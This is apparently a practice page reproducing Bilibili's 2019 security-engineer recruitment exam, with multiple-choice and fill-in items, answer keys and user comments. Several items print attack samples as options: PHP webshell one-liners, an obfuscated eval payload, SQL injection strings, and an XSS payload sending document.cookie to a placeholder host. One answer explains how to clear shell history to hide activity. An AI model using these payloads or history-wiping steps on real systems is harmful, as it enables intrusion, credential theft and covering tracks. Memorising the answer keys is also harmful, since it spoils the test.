



# 哔哩哔哩 2019 秋招技术岗（安全工程师）笔试题

## 1

PHP 提供以下哪个函数来避免 SQL 注入（）

正确答案: A   你的答案: 空 (错误)

```cpp
mysql_real_escape_string
```

```cpp
escapeshellarg
```

```cpp
htmlentities
```

```cpp
escapeshellcmd
```

本题知识点

Java 工程师 C++工程师 安卓工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 PHP 安全工程师 2019

讨论

[hzx1994](https://www.nowcoder.com/profile/529511)

escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数 htmlentities — 将字符转换为 HTML 转义字符 escapeshellcmd — shell 元字符转义 mysql_real_escape_string — 转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集 

发表于 2019-10-08 16:03:40

* * *

[牛客-hiro](https://www.nowcoder.com/profile/455648)

mysql_real_escape_string — 转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集。

发表于 2019-09-23 15:55:14

* * *

## 2

以下哪段代码不符合 WebShell 特征，应该作为白样本?（）

正确答案: C   你的答案: 空 (错误)

```cpp
echo copy("http://www.target.me/bili.txt","sec.php");
```

```cpp
eval(gzuncompress("xڕR?n?0\x0c=/@???.??M{???l@??Kr?T?,ː?nm?/e%?%??BR||??(6?P&?n??I?k?\x00?+߈?T?T???MX????2??P???\x0aV?4V??X???z,?\x0a?a2C?x?%?gMs?]\x24??ʾ?Z\x24i:??zv??R??ʴsB?i??xxZ<????{??tK\x09hᥩ?3??ƿvbNt?x?q????枓?j??CDnU???<?O??Ż??\x0a?^x?c?'>;V|\x0c??G4W?D9'|2-????+z???4?a??8?Wĩ7????????\x22?t7\x0c?,?h?}?hc1????_UJp??????n?E?e?>??uWF???E|??????0?9\x09??nZ1\x09v???Sna??
?Ӱ\x22D?=_?#|ܔ?⺄]??;???N"));
```

```cpp
eval('id');
```

```cpp
<?php  assert(${_GET}[cmd]);?>
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 shell 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门，互联网上搜集到的 WebShell 作为黑样本。gzuncompress 是解压字符串的方法。b 比 c 更符合 webshell 的特征

编辑于 2019-09-04 14:24:21

* * *

[幺玖玖五](https://www.nowcoder.com/profile/369045934)

三长一短选最短

发表于 2021-09-08 02:07:45

* * *

## 3

以下哪个服务器历史上不存在文件解析漏洞？（）

正确答案: D   你的答案: 空 (错误)

```cpp
Apache
```

```cpp
IIS
```

```cpp
Nginx
```

```cpp
Lighttpd
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 4

 [www.b.xxx/img?src=http://remote.me/1.jpg](http://www.b.xxx/img?src=http://remote.me/1.jpg) 看到上面这个 URL，你觉得它可能存在哪些漏洞？

正确答案: D   你的答案: 空 (错误)

```cpp
SSRF
```

```cpp
XSS
```

```cpp
命令执行
```

```cpp
都有可能存在
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[栗栗 viki](https://www.nowcoder.com/profile/648993747)

命令执行是怎么来的鸭 懂的师傅看到了能解答一下吗🤣

发表于 2020-05-22 11:59:01

* * *

## 5

以下哪条命令不能获得域名解析的 IP 地址？（）

正确答案: B   你的答案: 空 (错误)

```cpp
dig
```

```cpp
ifconfig
```

```cpp
ping
```

```cpp
nslookup
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[二当家的 y](https://www.nowcoder.com/profile/714080489)

dig：主要用来从 DNS 域名服务器查询主机地址信息
ifconfig：用于显示或配置网络设备（网络接口卡）的命令 ping：可以检查网络是否连通，可以很好地帮助我们分析和判定网络故障。（输入域名地址会解析成 IP 地址）nslookup：可以指定查询的类型,可以查到 DNS 记录的生存时间还可以指定使用哪个 DNS 服务器进行解释 

发表于 2019-09-30 11:05:05

* * *

[阿夲呀](https://www.nowcoder.com/profile/863141701)

ifconfig 命令:显示或设置网络设备。ifconfig 可设置网络设备的状态，或是显示目前的设置。

发表于 2019-08-19 22:39:12

* * *

## 6

Burpsuite 爆破 Web 登录认证需要以下哪一个模块？（）

正确答案: C   你的答案: 空 (错误)

```cpp
Proxy
```

```cpp
Spider
```

```cpp
Intruder
```

```cpp
Repeater
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[阿夲呀](https://www.nowcoder.com/profile/863141701)

Burp Suite 工具箱： Proxy——是一个拦截 HTTP/S 的***服务器，作为一个在浏览器和目标应用程序之间的中间人，允许你拦截，查看，修改在两个方向上的原始数据流。 Spider——是一个应用智能感应的网络爬虫，它能完整的枚举应用程序的内容和功能。 Scanner[仅限专业版]——是一个高级的工具，执行后，它能自动地发现 web 应用程序的安全漏洞。 Intruder——是一个定制的高度可配置的工具，对 web 应用程序进行自动化攻击，如：枚举标识符，收集有用的数据，以及使用 fuzzing 技术探测常规漏洞。 Repeater——是一个靠手动操作来补发单独的 HTTP 请求，并分析应用程序响应的工具。 Sequencer——是一个用来分析那些不可预知的应用程序会话令牌和重要数据项的随机性的工具。 Decoder——是一个进行手动执行或对应用程序数据者智能解码编码的工具。 Comparer——是一个实用的工具，通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。

发表于 2019-08-19 22:19:20

* * *

## 7

 以下哪一个请求不是 SQL 注入攻击产生的？（）

正确答案: D   你的答案: 空 (错误)

```cpp
search.php?type=1) AND 6439=4567 AND (1424=1424
```

```cpp
search.php?type=1);WAITFOR DELAY '0:0:5'--
```

```cpp
search.php?type=1 UNION ALL SELECT   NULL,NULL,NULL,NULL-- zrqh
```

```cpp
search.php?type='<sqlmap>'
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[二当家的 y](https://www.nowcoder.com/profile/714080489)

A：为 bool 是否验证 type 参数是否存在注入 B：首先 WAITFOR 不是 SQL 的标准语句，是 SQL Server 中 Transact-SQL 提供的一个流程控制语句，该语句用作延时注入 C：通过 order by 判断出表中的列后，找到可以输出界面的列进行注入利用 D：type 为注入点，sqlmap 为 SQL 注入的工具，但单单从这个语句肯定不会是 SQL 攻击过程出现的

发表于 2019-09-30 11:22:03

* * *

## 8

以下哪个工具不可以抓取 HTTP 数据包？（）

正确答案: D   你的答案: 空 (错误)

```cpp
Burpsuite
```

```cpp
Wireshark
```

```cpp
Fiddler
```

```cpp
Nmap
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 测试工程师 哔哩哔哩 网络基础 安全工程师 2019

讨论

[我的天鸭](https://www.nowcoder.com/profile/243498)

Nmap 是 Linux 下的网络扫描和嗅探工具包。 其基本功能有三个：一是探测一组主机是否在线；二是扫描主机端口，嗅探其提供的网络服务；三是推断主机所用的操作系统 。

发表于 2019-08-05 14:24:49

* * *

[年少挽滑稽世无双](https://www.nowcoder.com/profile/730848335)

Burpsuite 是用于攻击 web 应用程序的集成平台。它包含了许多工具，并为这些工具设计了许多接口，以促进加快攻击应用程序的过程。所有的工具都共享一个能处理并显示 HTTP 消息，持久性，认证，代理，日志，警报的一个强大的可扩展的框架。

发表于 2020-05-25 23:47:58

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

Fiddler 是位于客户端和服务器端之间的***，也是目前最常用的抓包工具之一 。它能够记录客户端和服务器之间的所有 请求，可以针对特定的请求，分析请求数据、设置断点、调试 web 应用、修改请求的数据，甚至可以修改服务器返回的数据，功能非常强大，是 web 调试的利器。

发表于 2019-09-05 12:48:15

* * *

## 9

以下对 HIDS 说法错误的是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
HIDS 全称为 History Intrusion Detection System
```

```cpp
HIDS 可以检测到攻击者进行反弹 shell
```

```cpp
HIDS 可以检测异常的进程树或程度调用
```

```cpp
HIDS 可以获取主机上面执行的所有命令
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[乐易](https://www.nowcoder.com/profile/175949726)

入侵检测系统（IDS）从网络数据包和主机状态信息中采集数据，根据信息采集方式不同可分为基于网络的入侵检测系统（NIDS）和基于主机的入侵检测系统（HIDS）。NIDS 采用监听的方式，在网络通信种寻找符合网络入侵规则的数据包，往往以硬件的形式部署在网络中，它独立与被保护的机器之外。基于主机的入侵检测系统 HIDS 则在主机系统中通过审计日志文件或文件完整性等操作中寻找攻击特征，它通常以软件形式安装在被保护计算机上。

发表于 2019-08-20 15:56:05

* * *

[onion_ne](https://www.nowcoder.com/profile/895309758)

HIDS 全称是 Host-based Intrusion Detection System，即基于[主机](https://baike.baidu.com/item/%E4%B8%BB%E6%9C%BA)型[入侵检测](https://baike.baidu.com/item/%E5%85%A5%E4%BE%B5%E6%A3%80%E6%B5%8B)系统。作为计算机系统的监视器和分析器，它并不作用于外部接口，而是专注于系统内部，监视系统全部或部分的动态的行为以及整个计算机系统的状态。

发表于 2019-07-10 15:21:34

* * *

## 10

以下哪些攻击是通常情况下 WAF 不能拦截的？（）

正确答案: B   你的答案: 空 (错误)

```cpp
XSS
```

```cpp
Redis 弱口令导致的 GetShell
```

```cpp
SQLI
```

```cpp
恶意 CC 攻击
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019 奇安信 2020

讨论

[卑微小陈](https://www.nowcoder.com/profile/576975490)

WAF 是通过预设规则来拦截异常请求，

例如，

1.xss payload 中的敏感字符< >，和敏感语句 script 等

2.sql 语句中敏感字符 ’ 和 select 等

3.cc 攻击发起的大量异常数据包

而弱口令密码是则是正常请求，例如密码 123456 被攻击者猜测到并以此密码通过验证，waf 则无法拦截。

发表于 2020-03-04 13:21:05

* * *

## 11

 哪一个 XSS payload 不是止于概念验证（POC），而是进行了漏洞利用？（）

正确答案: D   你的答案: 空 (错误)

```cpp
?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
```

```cpp
?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',{get:function(){return '<script>prompt(location.href)</script>';}})
```

```cpp
x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
```

```cpp
?x=window.open('http://xxx.me:8080/cookie.asp?msg='+document.cookie)
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

利用 xss 可以获取用户的 cookie 值

发表于 2019-09-05 13:10:53

* * *

## 12

正则表达式语法中 \d 匹配的是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
数字
```

```cpp
非数字
```

```cpp
字母
```

```cpp
空白字符
```

本题知识点

Java Javascript

讨论

[咸鱼小哲](https://www.nowcoder.com/profile/8534200)

\d      匹配一个数字字符。等价于 [0-9]。
\D     匹配一个非数字字符。等价于 [⁰-9]。
\f       匹配一个换页符。等价于 \x0c 和 \cL。
\n      匹配一个换行符。等价于 \x0a 和 \cJ。
\r       匹配一个回车符。等价于 \x0d 和 \cM。
\s      匹配任何空白字符，包括空格、制表符、换页符等等。等价于 [ \f\n\r\t\v]。
\S      匹配任何非空白字符。等价于 [^ \f\n\r\t\v]。
\t       匹配一个制表符。等价于 \x09 和 \cI。
\v      匹配一个垂直制表符。等价于 \x0b 和 \cK。
\w     匹配字母、数字、下划线。等价于'[A-Za-z0-9_]'。
\W    匹配非字母、数字、下划线。等价于 '[^A-Za-z0-9_]'。

编辑于 2019-09-10 09:11:28

* * *

[进步不生锈](https://www.nowcoder.com/profile/8398003)

\d 说明是 digit 数字\w 说明是 word 单词

发表于 2020-03-05 00:01:24

* * *

[Zn 微凉](https://www.nowcoder.com/profile/6020390)

\d 匹配的是数字，\D 匹配的是非数字。

发表于 2019-08-06 09:25:49

* * *

## 13

以下对 XSS 中文解释正确的是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
跨站脚本攻击
```

```cpp
跨站请求伪造
```

```cpp
服务端请求伪造
```

```cpp
服务拒绝攻击
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[阿夲呀](https://www.nowcoder.com/profile/863141701)

跨站脚本攻击 Cross Site Scripting 程序漏洞造成 盗用 cookie 等攻击手段 其特点：隐蔽性强、发起容易等特点 XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript，但实际上也可以包括 Java、 VBScript、ActiveX、 Flash 或者甚至是普通的 HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。

发表于 2019-08-19 23:03:10

* * *

## 14

以下不是应急响应中常用查看信息的命令是？（）

正确答案: B   你的答案: 空 (错误)

```cpp
ps -aux
```

```cpp
echo $HOME
```

```cpp
w
```

```cpp
more .bash_history
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[阿夲呀](https://www.nowcoder.com/profile/863141701)

应急响应中常用查看信息的命令有哪些？ 正确答案: A B C D A ps -aux B last C w D more .bash_history 。。。。。。。。。 。。。。echo 是打印变量的值或者给定的字符串，比如，输入 echo hello 或者 echo "hello"都是在控制台打印出 hello 单词。。 。 例 echo $HOME 控制台则会打印出当前用户的根路径

编辑于 2019-08-19 23:15:42

* * *

[根哥 09](https://www.nowcoder.com/profile/528350742)

查看 home 是用户地主目录，登录后缺省进入的目录

发表于 2019-11-04 11:28:40

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

Linux w 命令用于显示目前登入系统的用户信息。

执行这项指令可得知目前登入系统的用户有哪些人，以及他们正在执行的程序。

单独执行 w 指令会显示所有的用户，您也可指定用户名称，仅显示某位用户的相关信息。

发表于 2019-09-05 13:30:17

* * *

## 15

以下哪个是可以执行的 CSRF 漏洞的修复方案?（）

正确答案: A   你的答案: 空 (错误)

```cpp
检测 HTTP  referer 字段同域
```

```cpp
过滤单引号或尖括号
```

```cpp
在每个请求里面都添加验证码校验
```

```cpp
cookie 关键字段设置 HttpOnly 属性
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

[Referer](http://www.sojson.com/tag_referer.html) 是 [HTTP](http://www.sojson.com/tag_http.html) 请求 header 的一部分，当浏览器（或者模拟浏览器行为）向 web 服务器发送请求的时候，头信息里有包含 [Referer](http://www.sojson.com/tag_referer.html)。比如我在[www.google.com](http://www.google.com) 里有一个[www.baidu.com](http://www.baidu.com) 链接，那么点击这个[www.baidu.com](http://www.baidu.com) ，它的 header 信息里就有：Referer=[`www.google.com`](http://www.google.com)
由此可以看出它表示一个来源

发表于 2019-09-05 14:08:48

* * *

[AlcoholWaves](https://www.nowcoder.com/profile/146467558)

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。你这可以这么理解 CSRF 攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。其原理是攻击者构造网站后台某个功能接口的请求地址，诱导用户去点击或者用特殊方法让该请求地址自动加载。用户在登录状态下这个请求被服务端接收后会被误以为是用户合法的操作。对于 GET 形式的接口地址可轻易被攻击，对于 POST 形式的接口地址也不是百分百安全，攻击者可诱导用户进入带 Form 表单可用 POST 方式提交参数的页面。HTTP Referer 是 header 的一部分，当浏览器向 web 服务器发送请求的时候，会带上 Referer，通过验证 Referer，可以判断请求的合法性，如果 Referer 是其他网站的话，就有可能是 CSRF 攻击，则拒绝该请求。

2 和 4 好像是防止 XSS 注入攻击的。（纯复制，无原创）

发表于 2022-01-14 21:28:51

* * *

[CYX！](https://www.nowcoder.com/profile/192853280)

在每个请求都添加验证码会严重影响用户的交互使用

发表于 2020-04-06 17:57:19

* * *

## 16

在浏览器同源策略中和 [`www.bilibili.com/v/dance`](http://www.bilibili.com/v/dance) 同源的 url 是？（）

正确答案: B   你的答案: 空 (错误)

```cpp
http://www.bilibili.com:81/dir/etc.html
```

```cpp
http://www.bilibili.com/dir/inner/another.html
```

```cpp
https://www.bilibili.com/secure.html
```

```cpp
http://news.bilibili.com/dir/other.html
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

同源是指：域名、协议、端口相同


发表于 2019-09-05 16:08:00

* * *

## 17

以下哪一段代码是 php 常见的 "一句话木马"？（）

正确答案: B   你的答案: 空 (错误)

```cpp
<%execute(request("value"))%>
```

```cpp
<?php @eval($_POST[value]);?>
```

```cpp
<%@ Page Language="Jscript"%>
```

```cpp
<%eval(Request.Item["value"])%>
```

本题知识点

Java 工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 PHP 安全工程师 2019

讨论

[夏天 20181226203522](https://www.nowcoder.com/profile/565781264)

其中 eval 就是执行命令的函数，$_POST['a']就是接收的数据。eval 函数把接收的数据当作 PHP 代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意 PHP 语句。这便是一句话木马的强大之处。

发表于 2019-09-12 11:12:09

* * *

[Kzeale](https://www.nowcoder.com/profile/484607481)

F12 查看，发现答案 B 是有答案的，😂,不信自己打开看看 ```cpp
<?php
<!--?php @eval($_POST[value]);?-->
```

 

编辑于 2019-09-06 14:26:24

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)



发表于 2019-09-05 14:13:05

* * *

## 18

Redis 的常用的默认端口是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
6379
```

```cpp
637
```

```cpp
16379
```

```cpp
23
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 哔哩哔哩 Redis 安全工程师 2019

讨论

[伊莱文](https://www.nowcoder.com/profile/870373316)

选 A

Alessia Merz 是一位意大利***、女演员。 Redis 作者 Antirez 早年看电视节目，觉得 Merz 在节目中的一些话愚蠢可笑，Antirez 喜欢造“梗”用于平时和朋友们交流，于是造了一个词 "MERZ"，形容愚蠢，与 "stupid" 含义相同。

后来 Antirez 重新定义了 "MERZ" ，形容”具有很高的技术价值，包含技艺、耐心和劳动，但仍然保持简单本质“。

到了给 Redis 选择一个数字作为默认端口号时，Antirez 没有多想，把 "MERZ" 在手机键盘上对应的数字 6379 拿来用了。

发表于 2019-11-05 16:28:26

* * *

[Anonnaqyy](https://www.nowcoder.com/profile/6221730)

A

发表于 2020-07-10 01:18:12

* * *

[猫薄荷 x](https://www.nowcoder.com/profile/4034740)

本题选 A.6379 作者有说到 是这 4 个数字对应的英文字母键 MERZ 是取自一个意大利歌女名字。

发表于 2019-12-21 16:46:29

* * *

## 19

如果 [`security.bilibili.com/`](https://security.bilibili.com/) 存在 git 源码泄露你应该访问哪一个 url 进行验证？（）

正确答案: C   你的答案: 空 (错误)

```cpp
https://security.bilibili.com/isnice/
```

```cpp
https://security.bilibili.com/.gitignore
```

```cpp
https://security.bilibili.com/.git/config
```

```cpp
https://www.bilibili.com/bangumi/play/ss23858
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 20

通常一个网站存在 CSRF 漏洞，在没有其它漏洞辅助的情况下，可以通过 CSRF 漏洞做下面哪件事情？（）

正确答案: C   你的答案: 空 (错误)

```cpp
获取网站用户注册的个人资料信息
```

```cpp
获得其它用户的 Cookie 值
```

```cpp
冒用网站用户的身份发布信息
```

```cpp
都可以
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[卑微小陈](https://www.nowcoder.com/profile/576975490)

csrf （Cross-Site Request Forgery）跨站请求伪造

1.是一种伪造被攻击用户执行非本意操作的攻击方法。

2.csrf 得不到用户信息，只是借助用户权限。

发表于 2020-03-04 13:54:40

* * *

[CYX！](https://www.nowcoder.com/profile/192853280)

csrf 是模拟用户发出请求，但是并不能接受返回的内容，所以 a 答案不正确

发表于 2020-04-06 17:59:00

* * *

## 21

有一个一句话木马的代码为, 那他的密码是 1

你的答案 (错误)

1 参考答案 (1) cmd

本题知识点

Java 工程师 C++工程师 安卓工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 PHP 安全工程师 2019

讨论

[ComingDemon](https://www.nowcoder.com/profile/839453355)

?cmd={PHP 代码}或者&cmd={PHP 代码}，所以所谓密码就是 cmd

编辑于 2020-03-31 21:45:35

* * *

[Wlr.](https://www.nowcoder.com/profile/523103805)

cmd 吗不是

发表于 2019-11-29 10:28:31

* * *

## 22

执行 命令可以清理自己在服务器上操作的指令历史记录。1

你的答案 (错误)

1 参考答案 (1) history -c, echo > ~/.bash_history 等都可以

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[skyhacker](https://www.nowcoder.com/profile/377613741)

history -c  //清空历史执行命令 echo > ./.bash_history //或清空用户目录下的这个文件即可 

发表于 2020-04-15 17:25:52

* * *

## 23

aslr 是对抗 1 攻击的技术

你的答案 (错误)

1 参考答案 (1) 缓冲区溢出漏洞

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[云少安](https://www.nowcoder.com/profile/836246904)

没想到，只填“缓冲区溢出”也是错的……

发表于 2020-01-19 18:58:07

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

ASLR 技术会使 PE 文件每次加载到内存的起始地址随机变化，并且进程的栈和堆的起始地址也会随机改变。ASLR 是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的的一种技术。

编辑于 2019-09-06 14:52:13

* * *

## 24

当访问 web 网站某个资源不存在时，返回的 HTTP 状态码是 1

你的答案 (错误)

1 参考答案 (1) 404

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 哔哩哔哩 网络基础 安全工程师 2019

讨论

[混吃等死的咸鱼本鱼](https://www.nowcoder.com/profile/611431009)

404

发表于 2019-08-28 00:04:09

* * *

## 25

 nmap 的参数设置 -sV 代表着 1

你的答案 (错误)

1 参考答案 (1) Probe open ports to determine service/version info

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

探测开放端口以确定服务/版本信息

发表于 2019-09-06 14:53:34

* * *

## 26

sqlmap 的 --dump-all 参数代表着 1

你的答案 (错误)

1 参考答案 (1) Dump all DBMS databases tables entries

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

转储所有数据库管理系统的数据库表条目

发表于 2019-09-06 15:00:18

* * *

[牛客 935006236 号](https://www.nowcoder.com/profile/935006236)

列出所有数据库所有表

发表于 2020-09-04 16:50:12

* * *

## 27

sqlmap --tamper 参数的作用是 1

你的答案 (错误)

1 参考答案 (1) Use given script(s) for tampering injection data

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[skyhacker](https://www.nowcoder.com/profile/377613741)

使用 SQLMap 提供的 tamper 脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过 WAF 规则的阻挡，继而进行渗透攻击

发表于 2020-04-15 17:28:36

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

使用给定的脚本来篡改注入数据

发表于 2019-09-06 15:03:36

* * *

## 28

mongodb 的默认端口号是 1

你的答案 (错误)

1 参考答案 (1) 27017

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[牛客 935006236 号](https://www.nowcoder.com/profile/935006236)

27017

发表于 2020-09-04 16:51:33

* * *

## 29

